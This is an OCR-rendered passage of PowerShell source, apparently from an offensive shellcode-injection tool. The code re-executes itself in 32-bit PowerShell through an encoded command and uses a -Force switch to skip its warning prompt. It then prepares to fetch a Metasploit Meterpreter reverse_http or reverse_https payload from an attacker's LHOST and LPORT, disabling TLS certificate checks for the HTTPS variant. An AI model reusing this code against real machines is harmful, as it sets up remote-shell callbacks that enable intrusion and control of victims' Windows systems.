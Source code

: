             # Since the shellcode will run in a noninteractive instance of PowerShell, make sure the -Force switch is included so that there is no warning prompt.
            if ($MyInvocation.BoundParameters['Force'])
            {
                Write-Verbose "Executing the following from 32-bit PowerShell: $RootInvocation"
                $Command = "function $($MyInvocation.InvocationName) {`n" + $MyInvocation.MyCommand.ScriptBlock + "`n}`n$($RootInvocation)`n`n"
            }
            else
            {
                Write-Verbose "Executing the following from 32-bit PowerShell: $RootInvocation -Force"
                $Command = "function $($MyInvocation.InvocationName) {`n" + $MyInvocation.MyCommand.ScriptBlock + "`n}`n$($RootInvocation) -Force`n`n"
            }

            $CommandBytes = [System.Text.Encoding]::Ascii.GetBytes($Command)
            $EncodedCommand = [Convert]::ToBase64String($CommandBytes)

            $Execute = '$Command' + " | $Env:windir\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -NoProfile -Command -"
            Invoke-Expression -Command $Execute | Out-Null

            # Exit the script since the shellcode will be running from x86 PowerShell
            Return
        }
        
        $Response = $True
        
        if ( $Force -or ( $Response = $psCmdlet.ShouldContinue( "Do you know what you're doing?",
               "About to download Metasploit payload '$($Payload)' LHOST=$($Lhost), LPORT=$($Lport)" ) ) ) { }
        
        if ( !$Response )
        {
            # User opted not to carry out download of Metasploit payload. Exit function
            Return
        }
        
        switch ($Payload)
        {
            'windows/meterpreter/reverse_http'
            {
                $SSL = ''
            }
            
            'windows/meterpreter/reverse_https'
            {
                $SSL = 's'
                # Accept invalid certificates
                [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }
            }
        }
        